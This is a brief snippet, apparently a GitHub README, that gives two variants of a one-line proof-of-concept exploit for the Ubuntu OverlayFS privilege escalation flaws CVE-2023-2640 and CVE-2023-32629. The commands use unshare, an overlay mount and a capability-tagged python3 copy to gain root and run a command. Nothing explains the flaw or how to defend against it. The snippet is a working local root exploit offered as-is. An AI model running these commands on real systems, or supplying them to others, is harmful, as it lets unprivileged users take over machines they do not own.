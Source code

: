 ### CVE-2023-2640 | CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
# Or
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```
